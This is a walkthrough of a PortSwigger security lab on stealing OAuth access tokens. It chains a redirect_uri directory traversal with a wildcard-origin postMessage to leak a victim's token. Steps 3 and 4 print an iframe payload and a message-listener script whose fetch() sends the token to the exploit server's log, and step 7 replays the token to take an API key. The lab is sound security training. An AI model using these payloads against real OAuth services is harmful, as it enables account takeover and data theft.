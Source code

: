 # Stealing OAuth access tokens via a proxy page

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. Study the `OAuth` flow while proxying traffic through Burp. Using the same method as in the previous lab, identify that the `redirect_uri` is vulnerable to directory traversal. This enables you to redirect access tokens to arbitrary pages on the blog website.
2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. Look closer at the `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
3. From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select "Copy URL". Go to the exploit server and create an iframe in which the src attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:

```text
<iframe src="https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://lab-id.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
```

4. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:

```text
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

5. To check the exploit is working, store it and then click "View exploit". Make sure that the `iframe` loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
6. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.
7. Send the `GET /me` request to Burp Repeater. In Repeater, replace the token in the `Authorization: Bearer` header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
8. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; and then identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account; use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server and they always have an active session with the `OAuth` service. 

